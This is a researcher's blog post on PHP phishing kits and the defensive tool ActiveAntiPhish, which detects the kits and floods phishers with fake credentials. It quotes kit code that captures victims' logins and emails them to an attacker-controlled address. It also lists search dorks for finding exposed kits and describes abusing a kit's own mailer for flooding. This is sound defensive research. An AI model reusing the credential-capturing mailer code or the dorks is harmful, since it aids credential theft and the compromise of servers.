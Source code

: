 ```yaml
---
layout: post
title: ActiveAntiPhish - Protecting Stolen Credentials Using Saturation
author: Chad Baxter
date: 2018-06-16
tags: ["phishing", "databases", "security", "phishkits"]
---
```


<h3>Background</h3>

Over the past week I've started a new project involving phishing kits. These nasty little things are usually zip files that a hacker has paid for on an underground website or forum. They take many forms and are used to phish for many different types of credentials. Most phishers target the end user by sending an email that looks like it comes from the company with which they have an account when in fact the link in the email is a link to a phishing kit.

These kits are all created in PHP and all have the same coding style. It seems the underground phishing community has a standard they think is best which they follow faithfully. Because there are _thousands_ of different versions of these kits I thought it would be hard to write a good YARA rule to detect them. Turns out this "tried and true" format persists across almost 90% of them.

With [ActiveAntiPhish](https://www.github.com/LogoiLab/ActiveAntiPhish) my goal is to create an application that allows for easy detection of phishing kits found on your servers as well as those that show up in your emails. If you were to somehow accidentally input your credentials into a phishing kit ActiveAntiPhish's goal is to make it really hard for the phisher to use those credentials.

<h3>PhishKit Design</h3>

A phishing kit is commonly comprised of three parts, the _index_, the _blocker_, and the _mailer_.

<h4>The Index</h4>

The index page is usually a cloned page of the target website with the form fields changed to point to the _mailer_. For simple accounts these files are generally single page in style with a redirect to the official site. For banking phishkits the _index_ may be three to four separate pages for grabbing things like routing number, account number, pins, credit card info, and more.

<h4>The Blocker</h4>

Copy-pasting is virulent in the phishing community. The blocking script is the most common code among phishkits. This simple PHP script uses things like headers and user agent strings to determine if the computer visiting the page is a bot. The most commonly blocked bots are those by security companies and anti-phishing efforts like [PhishTank](https://phishtank.com/). Often phishers block entire IP ranges of countries they do not want credentials from. These vary based on the phisher.

<h4>The Mailer</h4>

This chunk of code is the main interest of ActiveAntiPhish as it is what exfiltrates stolen user info. It commonly has four parts with another debug-like part that shows up occasionally.

The first part gathers info about the user such as IP, country of origin, and User Agent string. An example of this section can be found here:

```php
$country = visitor_country();
$ip = getenv("REMOTE_ADDR");
$_SESSION['UserName'] = $_POST['UserName'];
$port = getenv("REMOTE_PORT");
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate=date("D M d, Y g:i a");
```

`visitor_country()` in this case is a function that uses publicly available geolocation APIs to get the victim's country of origin.

The second part creates the log, this compiles all of the gathered info including the stolen credentials into a multi-line PHP string. This log contains lots of identifiable strings and is usually what ActiveAntiPhish uses to identify the _mailer_. An example log section:

```php
$message .= "-----------  ! +Citi LOGIN ! xDD+ !  -----------\n";
$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Email Address        : ".$_POST['username']."\n";
$message .= "Password               : ".$_POST['passwd']."\n";
$message .= "IP Address             : ".$ip."\n";
$message .= "-----------  ! +nJoY+ !  -----------\n";
```

Phishers like to tag their logs for an unknown reason. These tags are very identifiable. The structure of dashes with tags in the middle is common among all _mailers_. The YARA rules currently in use by ActiveAntiPhish trigger on this format as well as unique tags.

The third part is where the _mailer_ gets its name. It composes the headers and addresses to send an email to a throwaway account that the phisher controls. It looks a little something like this:

```php
$send = "REDACTED@gmail.com";
$subject = "Office365 logs xD $ip";
$headers = "From:  El Patr0n<xCoNsoLe@REDACTED.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
```

As you can see there are a lot of unique strings here, in fact phishers seem to like 1337SpEaK. This makes it easy to detect.

The fourth part is often the redirect. This is an attempt to make the phishing page look legit by either logging you into or forwarding you on to the homepage of the impersonated site:

```php
header("Location: https://login.microsoftonline.com/");
```

This part of the _mailer_ is only helpful in identifying phishkits when used in conjunction with the above indicators.

The fifth and optional part is usually used to debug the mailer or is used as a fallback in case the throwaway account gets banned. It creates a local file and writes the log that would have been sent via email to the file. Phishkits that do this help us better understand who is being targeted as usually the log files are publicly readable. This allows me to contact those affected, especially those who had their corporate or university email stolen. The fallback option looks something like this:

```php
$handle = fopen("script.txt", "a");
fwrite($handle, $message);
fclose($handle);
```

<h3>PhishKit Collection</h3>

The method I use for gathering phishkits is usually a list of Google dorks. [PhishTank](https://phishtank.com/) is a good source if you're willing to hunt. Things to look for when hunting for phishkits are open directories with odd file and folder names. For example, here is a Google dork for Microsoft phishkits:

```
intitle:"Index of" insite:"onedrive" ".zip"
```

Once you find one you can continue to find more by using filenames you find to be common. Another common Microsoft phishkit dork:

```
intitle:"Index of" insite:"m1cr0" ".zip"
```

These dorks work because of the way phishers exploit vulnerable web servers. Often times a phisher finds a way of uploading a PHP webshell, this can be through poorly implemented upload pages or exploits (looking at you revslider). They then use the webshell to upload a zip file of the phishkit. They later extract the zip file and their kit is ready to go. Most phishers forget to delete the zip file after they're done. This allows us to download a copy of their phishkit. We now know how to interact with their _mailer_ script which allows us to automate saturation of the phisher's email account.

<h3>Saturation</h3>

Most throwaway accounts are GMail accounts the reason for this is unknown. But this allows us to make some educated guesses as to the limits of the account. GMail only allows its users to receive about 60 emails per minute (or an email a second). ActiveAntiPhish will be able to saturate the phisher's account with ease simply by calling the _mailer_ script. It is not known how GMail handles email flooding. But we can assume the server sending the email gets banned when it reaches the daily limit. That's 1 email a second, for every minute of 24 hours or __86,400__ emails. Once we reach this point the GMail documentation is very clear that the server is banned for 24 hours for the first offense.

This is important because if the phisher does not have a fallback email or logfile they have lost the ability to collect logs for the day while also having their inbox full of fake credentials. This would give a targeted company or individual time to contact webhosts and domain registrars to get the phishing page taken down.

The whole point of saturation is to increase the noise in the signal to noise ratio. This makes it difficult for a phisher to verify stolen credentials, making it very likely for them to just abandon that email account. Because the fake traffic is generated by the site with the _mailer_ the computer running ActiveAntiPhish is not likely to get banned.

<h3>Closing</h3>

The indicators of compromise that can be gleaned from phishkits allow us to build robust YARA rules for detecting their presence on our networks. The rules used by ActiveAntiPhish can be found in the repo here: [phishkit.yar](https://cpcde.page.link/aapr).

ActiveAntiPhish is still under heavy development and is currently in the research phase. Any contributions are welcome. You can find the repo [HERE](https://cpcde.page.link/aap)

<h3>References</h3>

[https://support.google.com/a/answer/1366776?hl=en](https://support.google.com/a/answer/1366776?hl=en)
